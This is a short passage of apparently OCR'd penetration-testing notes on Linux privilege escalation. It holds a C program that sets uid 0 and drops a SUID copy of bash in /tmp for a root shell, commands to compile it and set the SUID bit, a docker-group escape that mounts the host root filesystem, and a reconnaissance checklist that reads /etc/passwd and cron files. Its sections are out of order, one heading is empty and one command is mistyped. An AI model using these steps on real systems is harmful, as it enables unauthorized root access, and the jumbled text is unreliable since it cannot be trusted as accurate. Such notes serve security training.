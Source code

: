 ```c
void main(){
    setgid(0);
    setuid(0);
    system("cp /bin/bash /tmp/yz && chmod +s /tmp/yz && /tmp/yz -p");
}
```

Compile it and set SUID bit on.

```text
gcc malicious.c -o malicious
chmod +s malicious
```

Finally, run it from target machine.

## Docker

If you are member of a `docker` group, you can easily escalate to root.

```text
docker run -v /:/tmp -i -t bash bash
```



# Privilege escalation

## Situational awareness

```text
id
cat /etc/passwd
hostname
cat /etc/issue
cat /etc/*-release
uname -a
ps aux
ip a
ifconfig
route
routel
netstat -anp
ss -anp
cat /etc/iptables
la -lah /etc/cron*
dpkg -l

# page 528 for more
```

## Spawning root shell
